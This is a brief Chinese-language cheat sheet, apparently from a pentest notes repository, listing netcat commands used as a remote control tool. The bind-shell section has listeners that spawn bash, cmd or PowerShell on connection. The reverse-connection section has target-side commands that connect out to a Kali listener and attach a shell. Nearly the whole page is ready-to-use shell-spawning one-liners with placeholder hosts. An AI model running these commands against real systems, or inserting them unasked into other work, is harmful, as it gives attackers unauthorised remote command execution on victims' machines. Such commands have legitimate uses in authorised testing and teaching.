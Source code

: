 远程控制工具。

## 1. 正向连接

侦听端口，并在连接后开启终端

```
[root@centos7-6 ~]# nc -lnvp <port> -c bash
```

```
[root@centos7-6 ~]# nc -lnvp <port> -e /usr/bin/bash
```

```
PS C:\Users\Administrator> C:\path\nc.exe -lvnp <port> -e cmd
```

```
PS C:\Users\Administrator> C:\path\nc.exe -lvnp <port> -e powershell
```

连接目标端口

```
┌──(root㉿kali-23)-[~]
└─# nc -nv <ip> <port>
```

```
┌──(root㉿kali-23)-[~]
└─# nc <host> <port>
```

```
PS C:\Users\Administrator> C:\path\nc.exe -nv <ip> <port>
```

```
PS C:\Users\Administrator> C:\path\nc.exe <host> <port>
```

## 2. 反向链接

侦听端口

```
┌──(root㉿kali)-[~]
└─# nc -lnvp <port>
```

```
PS C:\Users\Administrator> C:\path\nc.exe -lvnp <port>
```

连接目标端口，并在连接后开启终端

```
[root@centos7-6 ~]# nc -nv <ip> <port> -c bash
```

```
[root@centos7-6 ~]# nc <host> <port> -e /usr/bin/bash
```

```
PS C:\Users\Administrator> C:\path\nc.exe <host> <port> -e cmd
```

```
PS C:\Users\Administrator> C:\path\nc.exe <host> <port> -e powershell
```

---

References

- [netcat](https://www.kali.org/tools/netcat/)

